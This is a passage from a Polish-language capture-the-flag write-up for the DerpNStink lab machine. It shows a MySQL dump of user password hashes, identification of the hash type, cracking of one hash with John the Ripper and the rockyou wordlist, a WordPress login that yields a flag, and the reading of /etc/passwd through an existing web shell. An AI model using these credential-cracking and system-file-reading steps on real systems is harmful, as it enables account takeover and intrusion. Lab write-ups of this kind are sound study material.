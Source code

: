 ```
mysql> select User,Password from user;
select User,Password from user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
| root             | *XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
| root             | *XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
| root             | *XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
| debian-sys-maint | *XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
| unclestinky      | *XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
| phpmyadmin       | *XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
+------------------+-------------------------------------------+
7 rows in set (0.01 sec)
```
Naszym targetem będzie użytkownik _unclestinky_. Zanim przystąpimy do dalszych działań, użyjemy narzędzia o nazwie **hash-identifier**. Dowiadujemy się, że:

```
Possible Hashs:
[+] MySQL 160bit - SHA-1(SHA-1($pass))
```
Kolej na password cracking przy wykorzystaniu toola **John The Ripper**

Zapisujemy dane do pliku _mysql_hashes.txt_ i formatujemy tekst do postaci `user:hash`


Wywołujemy **Johna** i korzystamy z gotowej listy słownikowej: \
`john mysql_hash.txt --format=mysql-sha1 --wordlist=/usr/share/wordlists/rockyou.txt` \

Wreszcie widzimy: \
`john --show mysql_hash.txt`

```
root@kali:~/Pulpit# john --show mysql_hashes.txt
unclestinky:wedgie57

1 password hash cracked, 0 left
```

Wykorzystajmy te dane aby zalogować się do wordpressa. Szybkie rozeznanie i trafiamy do zakładki **Posts**. Tam już czeka na nas szkic postu `**Flag2.txt**` a w nim druga flaga:
![](https://github.com/d15rup7or/Labs/blob/master/DerpNStink/img/flag2.png)
`flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)`

## 4. Uruchomienie powłoki z nowego konta

W tle wciąż działa zespawnowany przez nas wcześniej shell - pora znowu go wykorzystać

```
www-data@DeRPnStiNK$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
sshd:x:117:65534::/var/run/sshd:/usr/sbin/nologin
stinky:x:1001:1001:Uncle Stinky,,,:/home/stinky:/bin/bash
ftp:x:118:126:ftp daemon,,,:/srv/ftp:/bin/false
mrderp:x:1000:1000:Mr. Derp,,,:/home/mrderp:/bin/bash
```
